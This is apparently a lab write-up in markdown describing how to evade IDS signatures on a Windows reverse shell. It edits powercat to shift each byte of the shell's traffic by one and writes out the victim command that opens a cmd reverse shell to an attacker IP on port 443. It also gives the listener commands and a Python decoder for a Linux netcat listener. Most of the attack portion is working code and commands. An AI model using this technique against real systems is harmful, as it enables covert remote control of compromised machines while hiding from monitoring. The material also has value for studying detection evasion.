





# Bypassing IDS Signatures with Simple Reverse Shells

Most Intrusion Detection Systems \(IDS\) have signatures that can catch simple reverse shells going across the network. 

The thing that will get you flagged usually is the classic cmd prompt banner:

```text
listening on [any] 443 ...
connect to [192.168.2.79] from ws01 [192.168.2.149] 56079
Microsoft Windows [Version 10.0.17763.475]
(c) 2018 Microsoft Corporation. All rights reserved.
```

This can usually be bypassed relatively easily with some simple traffic obfuscation and this quick lab demonstrates just that.


**Warning**  
This technique is not meant to be used in real life red team operations!


## Environment and Setup

* Victim's Windows system capable of running powershell scripts
* Victim's system runs Powercat - netcat's Powershell implementation
* Attacker's Windows machine with a powercat listener
* Attacker's Linux machine with a netcat listener

## Execution - Encoding Responses

Since we want to obfuscate the outgoing traffic from the victim system to the attacking system, we need to obfuscate the responses generated by the reverse shell.

Let's modify powercat to achieve this. Int this lab, I will use a simple obfuscation technique - every ascii character will be shifted to the right by 1, so `a` will become `b`, `b->c`, `c->d` and so on, but base64 or any other encoding mechanisms could work.

In powercat.ps1, let's find the function `ReadData_CMD` and add a new line \(576 from the below graphic\):

```csharp
$Data = $Data | % {[byte]$_+1}
```


With the modified powercat, let's try establishing a reverse shell and catch it on the other end and see what happens:

```csharp
# victim
powercat -c 192.168.2.79 443 -e cmd

#attacker 
powercat -l -p 443 -v
```

Below shows the incoming reverse shell, but it's of course not readable since we shifted all the characters by one. Although this is enough to bypass IDS signatures relying on the cmd prompt banner crossing the network, the shell on itself is not very useful since we cannot read the results:



## Decoding Responses

We need to decode the responses by using the code we used earlier and make sure that we are now subtracting 1 rather than adding, so that `d` becomes `c`, `c->b`, `b->a` and so on:

```csharp
$Data = $Data | % {[byte]$_-1}
```

In powercat.ps1, find the function `WriteData_Console` and add the code just below the parameter declaration:



If we try establishing the reverse shell now, we can see it gets decoded nicely on the attacking system running powercat listener on Windows:


If we inspect the traffic, we confirm that the traffic is encoded:



## Decoding Responses in Linux

If we are listening for a shell in netcat on a Linux box with no powershell \(my kali was giving me a hard time trying to install powershell\), we need to hack together a filthy python loop that will do the decoding for us first:


```python
#!/usr/bin/python3
import os, time

global decoded
while 1:
    decoded = ""
    encodedFile = open("myfile", "rb+")
    i = 0
    last = ""
    encodedBytes = encodedFile.read()

    for byte in encodedBytes:
        if byte > 0 and byte <= 127:
            byte -= 1
        else:
            byte = 10

        if byte != last:
            decoded += chr(byte)
            last = byte
        i += 1

    if len(decoded) > 1:
        print(decoded)
    os.system("echo > myfile")
    time.sleep(1)
```


Let's launch the netcat listener on a linux box and pipe the output to `tee` so it can be put to a file `myfile`


```text
nc -lvvp 443 | tee myfile
```


In another terminal, we need to launch the `decoder.py` which will read the `myfile` every second and will decode its content and wipe it:


```text
./decoder.py
```




We can now send the reverse shell back from the windows machine and see how it works:

* Right - a compromised Windows system that will send a reverse shell to the attacker using powercat
* Top left - the reverse shell comes in, responses are encoded. This is where we can issue commands
* Bottom left - reverse shell responses are decoded



